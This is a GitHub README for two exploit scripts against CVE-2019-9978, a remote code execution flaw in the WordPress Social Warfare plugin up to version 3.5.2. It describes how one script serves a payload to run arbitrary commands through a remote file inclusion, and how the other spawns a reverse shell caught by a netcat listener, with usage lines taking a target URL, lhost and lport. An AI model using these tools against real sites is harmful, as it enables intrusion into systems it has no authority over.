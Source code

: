 # CVE-2019-9978
## RCE in Social Warfare Plugin ( <=3.5.2 )  
## Exploit Scripts
Scripts written with the help of Rin <3.  
Her Github: https://github.com/Scooter480


### social-warfare-rce.py
Setups an http server and serves as an interface to execute arbitrary commands via payload.txt and RFI/RCE vuln.  
#### Usage
```python
python3 social-warefare-rce.py http://example.com/wordpress/ lhost
```

### social-warfare-rev.py
Executes a reverse shell payload and spawns a netcat listener to catch the shell.
#### Usage
```python
python3 social-warefare-rev.py http://example.com/wordpress/ lhost lport
```
